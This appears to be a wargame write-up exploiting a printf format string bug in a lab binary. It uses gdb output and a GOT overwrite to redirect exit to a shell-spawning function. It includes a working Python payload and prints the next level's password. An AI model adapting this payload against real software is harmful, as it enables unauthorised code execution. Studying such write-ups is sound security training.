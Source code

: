 ## Press printf's f for fun and profit episode III (level5)

This level's [binary](level5/source.c) still does the same thing as the last
ones. It takes user input and prints it back to stdin. The input buffer is also
directly given to printf, which means we can once again perform a
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).
However this time there is no _m_ value to be set. All we have in our function
_n_, after our insecure printf call, is an exit. There is also an other
function, _o_, declared in the binary which calls system and spawns a shell.

We must obviously find a way to call the _o_ function. The only entry point we
have after the printf call is - ironically - our exit call. The call instruction
refers to an address where the function resides. If we could rewrite the call
instruction to point to _o_ or to make the exit address point to it, this would
do the trick.

One way to do this is through the
[got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.

So first we get the GOT address of the exit function:

```shell
# run gdb on level5
gdb ./level5
# print the exit call we want to overwrite in the n function
(gdb) disass n
... # lines removed for clarity
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
# then the got address
(gdb) x/3i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```

This would be _0x8049838_ here. We can test that the exploit could work by
setting this address' value to the address of the function _o_.

```shell
# get o's address
(gdb) i addr o
Symbol "o" is at 0x80484a4 in a file compiled without debugging.
# break on the exit call
(gdb) b *0x080484ff
(gdb) run
Starting program: /home/user/level5/level5
random input
random input

Breakpoint 1, 0x080484ff in n ()
# now replace the exit's got address with o
(gdb) set *0x8049838 = 0x80484a4
(gdb) c
Continuing.
# here we are (well still at level5, but theoretically it works)
$ whoami
level5
```

This works. So the goal now is to do it though the format string attack on the
printf call. This is basically the same exploit as is in the last level except
that the _m_ address is replaced with exit's got address.

We start getting to our buffer from the fourth conversion:

```
./level5
aaaabbbbccccddddeeeefghijklm %p %p %p %p
aaaabbbbccccddddeeeefghijklm 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161
```

Now we simply adapt the last level's exploit for this binary:

```shell
# feed the exploit payload to the binary
python -c 'print "\x08\x04\x84\x7f"[::-1] + 4 * "a" + "\x08\x04\x98\x38"[::-1] + "%p%p%p%0*p%n"' | ./level5
# it works ;)
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

The first four bytes are the length to add to printfs's return value to return
_o_'s address. After the padding we have the location of exit's got address and
finally the format string to pop our values from the stack.
